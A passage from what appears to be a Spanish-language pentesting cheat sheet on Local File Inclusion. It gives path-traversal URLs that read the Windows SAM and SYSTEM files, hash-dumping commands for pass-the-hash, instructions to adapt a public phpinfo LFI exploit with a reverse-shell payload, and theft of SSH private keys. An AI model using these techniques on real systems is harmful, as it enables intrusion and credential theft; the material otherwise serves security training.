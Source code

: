 ```bash
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Lo dumpeamos con:

```bash
pwdump SAM SYSTEM

o

samdump2 SAM SYSTEM > hashes.txt
```

Y podemos realizar un Pass-The-Hash.

### Via phpinfo

Para aprovechar esta vulnerabilidad, necesita: **Una vulnerabilidad LFI, una página donde se muestra phpinfo (), "file_uploads = on" y el servidor debe poder escribir en el directorio "/ tmp".**

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

Necesitas arreglar el exploit (cambiar **=>** por **&gt** ). Para hacerlo, puede hacer:

```bash
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```

Debe cambiar también la **carga útil** al comienzo del exploit (para un php-rev-shell, por ejemplo), el **REQ1** (esto debe apuntar a la página phpinfo y debe tener el relleno incluido, es decir: _REQ1 = "" "POST /install.php?mode=phpinfo&a="""+padding+ "" "HTTP / 1.1 \ r_ ) y **LFIREQ** (esto debería apuntar a la vulnerabilidad LFI, es decir: _LFIREQ =" "" GET / info? page =% s \%% 00 HTTP / 1.1 \\ r -_ Marque el doble "%" al explotar el carácter nulo)

[LFI con PHPInfo](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-L_Y6hln3AC5TfzCrKez%2F-L_Y7wJD9oBPwzbpKXce%2FLFI-With-PHPInfo-Assistance.pdf?alt=media&token=b0f544ea-2fe7-4b3f-9177-6ed5ece6d277)

[HTB poison Ippsec](https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s)

### Via el servicio de SSH

Si ssh está activo, verifique qué usuario se está utilizando (/proc/self/status o /etc/ passwd) e intente acceder a /home/\<usuario\>/.ssh/id_rsa
	
Asi podemos robarles la id_rsa e intentar loguearse con esa identidad

## AUTOMATED SCANNING

### FUZZING PARAMETROS

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
